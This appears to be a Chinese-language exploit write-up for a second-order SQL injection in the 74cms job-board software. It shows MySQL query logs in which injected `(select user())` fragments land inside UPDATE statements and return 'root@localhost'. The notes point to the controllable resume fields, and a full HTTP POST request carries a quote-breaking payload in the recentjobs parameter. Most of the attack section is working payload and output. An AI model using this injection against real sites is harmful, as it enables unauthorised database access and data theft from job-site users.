		  469 Query	select * from qs_resume_training where pid='1' AND  uid='1'
140117  1:25:14	  469 Query	UPDATE qs_resume SET `photo`='0', `complete`='1', `complete_percent`='60', `key`='88888 88888 88888 营销总监 2222220  营销00 总监00 中技00 99999',`key`=(select user()),`refreshtime`='9 99999',`key`=(select user()),`refreshtime`='9 99999',`key`=(select user()),`refreshtime`='9', `refreshtime`='1389893112' WHERE uid='1' AND id='1'
		  469 Query	UPDATE qs_resume_tmp SET `photo`='0', `complete`='1', `complete_percent`='60', `key`='88888 88888 88888 营销总监 2222220  营销00 总监00 中技00 99999',`key`=(select user()),`refreshtime`='9 99999',`key`=(select user()),`refreshtime`='9 99999',`key`=(select user()),`refreshtime`='9', `refreshtime`='1389893112' WHERE uid='1' AND id='1'
		  469 Query	select * from qs_resume where id='1' AND uid='1' LIMIT 1
		  469 Query	select * from qs_resume_tmp where id='1' AND uid='1' LIMIT 1
		  469 Query	select * from qs_resume where id='1'  AND uid='1' LIMIT 1
		  469 Query	UPDATE qs_resume_search_rtime SET `sex`='1', `nature`='62', `marriage`='1', `experience`='76', `district`='1', `sdistrict`='35', `wage`='56', `education`='67', `photo`='0', `refreshtime`='1389893112', `talent`='1' WHERE uid='1' AND id='1'
		  469 Query	UPDATE qs_resume_search_key SET `sex`='1', `nature`='62', `marriage`='1', `experience`='76', `district`='1', `sdistrict`='35', `wage`='56', `education`='67', `photo`='0', `refreshtime`='1389893112', `talent`='1', `key`='root@localhost', `likekey`='营销总监,666666,777777,222222' WHERE uid='1' AND id='1'
		  469 Query	UPDATE qs_resume_search_tag SET `tag5`='0', `tag4`='0', `tag3`='0', `tag2`='0', `tag1`='0', `id`='1', `uid`='1', `subsite_id`='0', `experience`='76', `district`='1', `sdistrict`='35', `education`='67' WHERE uid='1' AND id='1'
		  469 Quit	
在469处已经看到了一个我们想要的结果，这是mysql日志，攻击的一般得到也不容易，服务器也不一定记录。
再开后面有能控制的参数likekey
222222是基本信息中的姓名。
666666是求职意向中的最近工作过的职位
同理可以利用三次注入，让mysql报错，我就能看到我想要的了！

要的结果出来了。
REQUEST：
4cms/user/personal/personal_resume.php?act=make2_save HTTP/1.1
Host: localhost
Proxy-Connection: keep-alive
Content-Length: 297
Cache-Control: max-age=0
Origin: http://localhost
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.89 Safari/537.1
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://localhost/74cms/user/personal/personal_resume.php?act=make2&amp;pid=1&amp;go_resume_show=1
Accept-Encoding: gzip,deflate,sdch
Accept-Language: zh-CN,zh;q=0.8
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Cookie: QS[uid]=1; QS[username]=111111; QS[password]=9b992eee6312919356a40415f283f5ee; QS[utype]=2; QS[pmscount]=1; CNZZDATA5243664=cnzz_eid%3D2105242747-1389515449-%26ntime%3D1389534482%26cnzz_a%3D8%26ltime%3D1389515448225; PHPSESSID=7ck165pg0jv7vod6kod932fjj2

recentjobs=666666'&amp;nature=62&amp;nature_cn=%C8%AB%D6%B0&amp;district_cn=%B1%B1%BE%A9%CA%D0%2F%B6%AB%B3%C7%C7%F8&amp;district=1&amp;sdistrict=35&amp;wage_cn=1000%7E1500%D4%AA%2F%D4%C2&amp;wage=56&amp;intention_jobs=%D3%AA%CF%FA%D7%DC%BC%E0&amp;intention_jobs_id=1.2&amp;trade_cn=%CD%F8%C2%E7%D3%CE%CF%B7&amp;trade=5&amp;pid=1&amp;go_resume_show=1

